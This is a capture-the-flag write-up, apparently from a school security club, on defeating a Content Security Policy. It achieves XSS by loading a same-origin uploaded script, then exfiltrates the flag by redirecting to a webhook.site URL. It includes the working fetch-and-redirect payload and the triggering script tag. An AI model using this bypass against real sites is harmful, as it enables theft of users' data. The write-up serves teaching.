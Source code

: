 ```yaml
---
layout: post
title:  "xss 2: content security policy"
date:   2021-10-04
categories: web
---
```


Last meeting (9/30), we split into two groups. The main group learned about CSP and tackled the challenge I'm writing up now, and the beginner group went with Alexa to learn about CTFs and get used to the format.

You can reference the lecture [here](https://docs.google.com/presentation/d/1eFQdNVU9dnio1oTWOYIOMew6aYv0ClfXtkUtp8M7_s0/edit#slide=id.p).


The goal this time is to achieve XSS, and exfiltrate data back to a server we control. The main challenge this time is not in filters, but in the CSP header, which prevents a lot of basic XSS techniques.

#### analysis
Using inspect element, we can see that the Content Security Policy that this challenge has is: `default-src 'self'; frame-src 'none'; script-src 'self' https://www.google.com/recaptcha/api.js` (go to Network tab and click around until you see it in one of the response headers:

![CSP header in inspect element](/writeups/assets/images/10-04-21/csp.png)


Deconstructed, this means:
- by default, the only place we can load from is the site (`xss2.blairsec.mbhs.edu`) itself
- iframes cannot be loaded at all
- scripts can only be loaded from either this site or the Google ReCaptcha host (the latter of which is irrelevant in this example, Jason just over-engineers his challenges)

It is also worth noting that the site is somewhat functionally different. Instead of loading a fancy styled site when we submit content, we just get plain content back.

#### achieving xss
First we need to achieve XSS. Doing
```html
<script>
    alert(1);
</script>
```

won't work because the CSP directive `script-src` does not specify `inline` as allowed. Note that `self` is allowed, meaning we can load and run scripts from the same host, but cannot run inline scripts such as the above.

To get around this, we can first upload a note containing `alert(1)` to its own path, then use `<script src="<url of javascript>"></script>` to load it. Note that our note containing JavaScript will always be on `xss2.blairsec.mbhs.edu/*`, which satisfies the CSP directive. Now we can see an alert box pop up when we view our second note.


#### exfiltrating data
Once we have XSS, all we need to do is read `/flag` and send the data to ourselves. However, the `connect-src` directive impedes this.

[`connect-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/connect-src):
```
The HTTP Content-Security-Policy (CSP) connect-src directive restricts the URLs which can be loaded using script interfaces. The APIs that are restricted are:

<a> ping,
fetch(),
XMLHttpRequest,
WebSocket,
EventSource, and
Navigator.sendBeacon().
```

Because the server does not explicitly set `connect-src`, it is inherited by the `default-src` directive, which is set to only `self`. This means that we can run `fetch()` to read the data at `/flag`, but we cannot use `fetch()` to send data to ourselves at an external host.

Of course this is easily bypassable by using a redirect instead of sending a request (set `window.location` attribute).

Our final JavaScript payload might look something like:
```javascript
fetch("/flag").then(resp => resp.text().then(flag => location=("https://webhook.site/15613e6c-16cf-440b-9a5d-4b533c1dae02/?"+encodeURIComponent(flag))))
```

and our note to trigger it (the one we report) will be:
```html
<script src="/sites/b9d9907c-0403-4695-95be-efd033b90453"></script>
```

Note the UUIDs (for the webhook and the note link) are the ones I got for the solution, but they will be different when you are solving it.

Flag: `flag{csp_more_like_cspepega}`

~ josh